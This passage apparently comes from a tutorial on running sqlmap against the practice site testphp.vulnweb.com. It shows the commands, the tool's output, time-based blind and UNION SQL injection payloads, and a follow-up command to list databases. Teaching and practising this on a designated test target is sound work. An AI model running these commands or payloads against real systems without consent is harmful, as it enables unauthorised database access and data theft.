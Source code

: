 1. Open terminal and enter the below command

   ```bash
   sqlmap -u "http://testphp.vulnweb.com/search.php?test=query"
   ```

   `-u`: the target site url
   The SQLMap'll detect the target's vulnerabilities and return the information of them.

   ```shell
   ┌──(dyl4n㉿kali)-[/]
   └─$ sqlmap -u "http://testphp.vulnweb.com/search.php?test=query"
           ___
          __H__
    ___ ___["]_____ ___ ___  {1.7.2#stable}
   |_ -| . [(]     | .'| . |
   |___|_  ["]_|_|_|__,|  _|
         |_|V...       |_|   https://sqlmap.org

   [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

   [*] starting @ 04:53:43 /2023-04-20/

   [04:53:43] [INFO] resuming back-end DBMS 'mysql'
   [04:53:43] [INFO] testing connection to the target URL
   sqlmap resumed the following injection point(s) from stored session:
   ---
   Parameter: test (GET)
       Type: time-based blind
       Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
       Payload: test=query' AND (SELECT 8297 FROM (SELECT(SLEEP(5)))EfaF) AND 'ekJi'='ekJi

       Type: UNION query
       Title: Generic UNION query (NULL) - 3 columns
       Payload: test=query' UNION ALL SELECT NULL,CONCAT(0x7170627671,0x644b7762646447676e584f55746d49474a424d47796457714777664474694d624163684657445368,0x71626a7671),NULL-- -
   ---
   [04:53:44] [INFO] the back-end DBMS is MySQL
   web server operating system: Linux Ubuntu
   web application technology: Nginx 1.19.0, PHP 5.6.40
   back-end DBMS: MySQL >= 5.0.12
   [04:53:44] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/testphp.vulnweb.com'

   [*] ending @ 04:53:44 /2023-04-20/
   ```

   => There's `time-based blind` sqli detected in the system

2. Proceed to find the database name once it is determined that the target has sqli vulnerability

   ```shell
   sqlmap -u "http://testphp.vulnweb.com/search.php?test=query" --dbs
   ```
